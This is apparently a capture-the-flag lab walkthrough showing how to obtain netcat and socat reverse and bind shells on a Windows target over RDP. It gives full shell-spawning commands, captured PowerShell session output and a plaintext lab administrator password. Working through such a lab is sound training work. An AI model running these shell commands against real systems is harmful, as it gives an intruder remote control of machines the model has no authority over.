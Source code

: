 xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.70.179 /u:newadmin /p:'password'

* RDP connects after acknowledging certificate CN mismatch.

Experiment using socat and netcat to obtain reverse and bind shells on the Windows Target.

**Create Netcat reverse shell.**

1. Start listener on attacker.

nc -lvnp 1234

1. Create RDP session using supplied administrative credentials.

xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.70.179 /u:Administrator /p:'TryH4ckM3!'

1. Open command prompt on target and create bind shell.

nc 10.10.248.19 1234 -e “powershell.exe”

1. Connection established.

Connection from 10.10.70.179 50558 received!

Windows PowerShell

Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>

**Create Netcat bind shell (using existing RDP session).**

1. Open command prompt on target and create listener.

nc -lvnp 1234 -e “powershell.exe”

1. Create outbound connection from attacker.

nc 10.10.70.179 1234

1. Session is established.

* On target host.

connect to \[10.10.70.179] from (UNKNOWN) \[10.10.18.162] 50900

* On attacker host.

Windows PowerShell

Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>

**Create a socal reverse shell (using existing RDP session).**

1. Start listener in attacker.

socat TCP-L:1234 -

1. Open command prompt on target and create connection back to listener.

socat TCP:10.10.18.162:1234 EXEC:powershell.exe,pipes
